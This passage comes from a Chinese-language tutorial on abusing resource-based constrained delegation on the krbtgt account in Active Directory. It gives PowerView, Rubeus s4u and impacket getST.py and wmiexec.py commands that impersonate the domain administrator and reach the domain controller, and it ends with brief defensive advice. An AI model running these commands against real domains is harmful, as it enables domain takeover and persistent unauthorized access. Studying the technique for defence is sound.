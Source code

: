 `$SD.GetBinaryForm($SDBytes, 0)`

`Set-DomainObject krbtgt -Set @{'msds-
allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose`

可以看到brbtgt的msds-allowedtoactonbehalfofotheridentity会包含有效字段。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091133.png)

 **1.使用rubeus伪造administrator请求TGT**

Rubeus.exe s4u /user:win10system$ /rc4:6C4FD556DB12BE51BACD9A3CC19D486E
/impersonateuser:administrator /msdsspn:krbtgt /ptt

![]()

klist查看缓存票证

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091135.png)

访问域控

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091136.png)

 **2.同样的也能用impacket套件**

`python3 getST.py -dc-ip 192.168.228.10 -spn krbtgt -impersonate administrator
hiro.com/win10system$:win10`

`set KRB5CCNAME=administrator.ccache`

`python3 wmiexec.py -no-pass -k administrator@WIN-KONG.hiro.com -dc-ip
192.168.228.10`

* * *

##  

##  **防御：**

 **  
**

1. **高权限账号设置禁止委派属性**

![]()

2.微软推出了 **protected users组，组内用户不允许被委派** ，适用于Windows Server 2016，Windows Server
2012 R2、 Windows Server 2012

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210804091137.png)

3.kerberos预认证不使用DES或RC4等加密算法（ **尽量使用AES256** ）同样能够预防`Kerberoast`攻击

![]()

 **推荐阅读**
